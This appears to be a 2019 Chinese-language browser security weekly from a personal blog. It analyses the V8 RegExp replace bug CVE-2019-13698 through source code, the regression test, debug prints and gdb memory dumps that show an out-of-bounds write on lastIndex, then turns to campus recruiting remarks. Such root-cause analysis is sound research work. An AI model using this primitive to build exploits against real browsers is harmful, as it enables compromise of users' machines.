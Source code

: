 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.10.21 - 2019.10.25"
date:   2019-10-25 18:00:00 +520
categories: Browser_Security
---
```


有段时间没有更新浏览器了

JS Fuzz，有点意思，我还没有看源码
- https://github.com/fuzzitdev/jsfuzz

最近分析了CRBUG-944971，对应的CVE编号是CVE-2019-13698，正则模块的漏洞
- https://bugs.chromium.org/p/chromium/issues/detail?id=944971

触发漏洞的原理很简单，根据报告者的Exp去找漏洞的触发路径很有意思

首先正则的Replace函数认为传入的是未经修改的对象，也就是说没有被重新定义过的正则对象，它会调用`ToString()`，这是一个可以在上层进行定义的函数
```
V8_WARN_UNUSED_RESULT MaybeHandle<String> RegExpReplace(Isolate* isolate, Handle<JSRegExp> regexp, Handle<String> string, Handle<Object> replace_obj) {
    // Functional fast-paths are dispatched directly by replace builtin.
    DCHECK(RegExpUtils::IsUnmodifiedRegExp(isolate, regexp));
    DCHECK(!replace_obj->IsCallable());

    Factory* factory = isolate->factory();

    const int flags = regexp->GetFlags();
    const bool global = (flags & JSRegExp::kGlobal) != 0;
    const bool sticky = (flags & JSRegExp::kSticky) != 0;

    Handle<String> replace;
    ASSIGN_RETURN_ON_EXCEPTION(isolate, replace, Object::ToString(isolate, replace_obj), String); <== 1
    replace = String::Flatten(isolate, replace);
```

官方给的回归测试文件可以看到就是在`toString()`里进行操作
```
let re = /x/y;
let cnt = 0;
let str = re[Symbol.replace]("x", {
    toString: () => {
        cnt++;
        if (cnt == 2) {
            re.lastIndex = {valueOf: () => {
                re.x = 42;
                return 0;
            }};
        }
        return 'y$';
    }
});
assertEquals("y$", str);
```

具体这个漏洞的利用细节我会单独写一篇文章分析，周报里简单讲讲，首先我们使用下面的代码测试一个特性
```
var pattern = new RegExp("AA","g");
%DebugPrint(pattern);

pattern.__defineGetter__('x', ()=>2);
%DebugPrint(pattern);

pattern.__defineGetter__('x', ()=>2);
%DebugPrint(pattern);

while(true);
```


`%DebugPrint`是V8调试版本下一个用于打印对象的接口，输出的数据我简化一下，第二次`__defineGetter__`执行完后，可以看到`lastIndex`被移动到`properties`存储，同时对象长度减少8字节
```
DebugPrint: 0x1fb102d4dcc1: [JSRegExp]
 - map: 0x1d23bf341359 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - properties: 0x1878b9400c71 <FixedArray[0]> {
    #lastIndex: 0 (data field 0)
 }
0x1d23bf341359: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 56

------------------------------------------------------------

DebugPrint: 0x1fb102d4dcc1: [JSRegExp]
 - map: 0x1d23bf34a9f9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - properties: 0x1878b9400c71 <FixedArray[0]> {
    #lastIndex: 0 (data field 0)
    #x: 0x2d807e95f4c1 <AccessorPair> (const accessor descriptor)
 }
0x1d23bf34a9f9: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 56

------------------------------------------------------------

DebugPrint: 0x1fb102d4dcc1: [JSRegExp]
 - map: 0x1d23bf34aa49 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - properties: 0x1fb102d4f631 <NameDictionary[29]> {
   #lastIndex: 0 (data, dict_index: 1, attrs: [W__])
   #x: 0x2d807e95f4d9 <AccessorPair> (accessor, dict_index: 2, attrs: [WEC])
 }
0x1d23bf34aa49: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 48
```

记住上面的这点，我们来看内存角度
```
var pattern = new RegExp("AA","g");
gdb-peda$ x/20gx 0x99f7870dcd8
0x99f7870dcd8:	0x000030b004981359	0x00003df557b80c71
0x99f7870dce8:	0x00003df557b80c71	0x0000099f7870f561
0x99f7870dcf8:	0x000000a31509f099	0x0000000100000000
0x99f7870dd08:	0x0000000000000000	0x00003df557b808a1

以下因为重新运行导致内存地址变化，问题不大，两次执行过后可以看到核心的地方出现了，注意箭头指向的地方，原先是`0`，现在变成了一个地址
pattern.__defineGetter__('x', ()=>2);
pattern.__defineGetter__('x', ()=>2);
gdb-peda$ x/20gx 0x30e12f60dce0
0x30e12f60dce0:	0x0000365cc160aa49	0x000030e12f60f651
0x30e12f60dcf0:	0x00003cb956540c71	0x000030e12f60f569
0x30e12f60dd00:	0x00000d083935f099	0x0000000100000000
0x30e12f60dd10:	0x00003cb956540321 <==	0x00003cb9565408a1
0x30e12f60dd20:	0x0000018300000000	0x0000000100000000
0x30e12f60dd30:	0x0000000000000000	0x0000008000000000
0x30e12f60dd40:	0x00003cb9565404d1	0x00003cb9565404d1
0x30e12f60dd50:	0x00003cb9565404d1	0x00003cb9565404d1
0x30e12f60dd60:	0x00003cb9565404d1	0x00003cb9565404d1
0x30e12f60dd70:	0x00003cb9565404d1	0x00003cb9565404d1
```

我们通过`job`命令查看，它是一个对象的Map，也就是说，这里是一个新的对象内存空间
```
gdb-peda$ job 0x00003cb956540321
0x3cb956540321: [Map]
 - type: FILLER_TYPE
 - instance size: 8
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x3cb9565404d1 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x3cb956540259 <DescriptorArray[0]>
 - layout descriptor: (nil)
 - prototype: 0x3cb9565401d9 <null>
 - constructor: 0x3cb9565401d9 <null>
 - dependent code: 0x3cb9565402c1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

这个特性有什么用呢？

我们再回到`Replace`函数里，它竟然可以直接设置这个`lastIndex`位，也就是说，在`Replace`里处理的时候，可以通过`toString()`修改掉这个值，而修改的时候，原先的`lastIndex`已经变成了另一个对象的`Map`，这就造成了一个越界写操作，`sticky`对应的`y`，比如`"AA/y"`
```
if (match_indices_obj->IsNull(isolate)) {
    if (sticky) regexp->set_last_index(Smi::kZero, SKIP_WRITE_BARRIER);
        return string;
}

auto match_indices = Handle<RegExpMatchInfo>::cast(match_indices_obj);

const int start_index = match_indices->Capture(0);
const int end_index = match_indices->Capture(1);

if (sticky) {
    regexp->set_last_index(Smi::FromInt(end_index), SKIP_WRITE_BARRIER);
}
```

参加了今年的数字校招面试工作，一共是四批，第一批是内推，剩下三批是大流程，内推的好处就是万一挂了可以参加大流程，完全不会有影响，但是大流程只能参加一次

整个部门的候选人简历一眼刷下来几乎全是硕士学历，本科生屈指可数，全公司的比例情况我不清楚，没有看到表格

感慨还好毕业的早，不然今年可能真的找不到工作了

记得17年的春招，我在寝室里参加了数字的春招视频面试，大早上有个人打电话给我问我能不能参加面试，然后我就早早地在那里准备了，然后时间一到就有面试官Call我，一早上三面聊得很快，一面工程师，二面leader，三面HR

另外，今年的秋招差不多结束了，春招的时候大家投简历请踊跃一点，不要太羞涩了，有坑，缺人！需要内推360的后台联系我啊！！！！！！